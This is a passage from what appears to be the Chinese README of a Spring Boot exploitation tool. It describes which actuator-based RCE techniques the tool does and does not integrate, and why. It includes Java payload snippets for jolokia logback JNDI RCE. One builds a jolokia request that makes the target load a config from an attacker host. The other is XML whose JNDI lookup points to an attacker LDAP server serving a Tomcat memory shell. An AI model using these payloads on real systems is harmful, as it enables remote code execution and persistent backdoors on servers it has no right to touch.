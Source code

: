 
目前没有集成这个漏洞，因为服务器端要构造一个flask框架的服务端，内容包含上面的xml文件。
目前实现方式

1. Java直接实现Flask框架 没有现成的方式（放弃）
1. Java直接调用命令执行python文件（失败，Java调用Runtime和cmd直接调用是有区别的）
1. 使用jython执行python文件，脚本依赖flask依赖。要加入flask目录（不符合需求）







### [mysql jdbc deserialization RCE](https://github.com/LandGrey/SpringBootVulExploit#0x08mysql-jdbc-deserialization-rce)


此漏洞利用极其复杂，条件要求较多。

1. 需要确认存在mysql驱动
1. 版本需要5.x或者8.x
1. 需要存在gadget依赖
1. 记录原本的spring.datasource.url 的value，最后恢复
1. 需要架设恶意rogue mysql server​

成功率低，需要多，故目前没集成（后期可能会集成）。


### jolokia logback JNDI RCE


**Payload**
```java
        String path = "/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/" + vps
                + ":3456!/a.xml";
```
**a.xml**
```java
        String bytes = "<configuration>\n  <insertFromJNDI env-entry-name=\"ldap://" + Config.ip + ":1389/TomcatBypass/TomcatMemshell3\" as=\"appName\" />\n</configuration>";

```


### jolokia Realm JNDI RCE


这个RCE利用方式和上面一个差不多，存在jolokia logback JNDI RCE大概率存在jolokia Realm JNDI RCE漏洞，这里就不详细展开。


### h2 database console JNDI RCE


![image-20211228174056470](https://cdn.jsdelivr.net/gh/SummerSec/Images//56u4056ec56u4056ec.png)




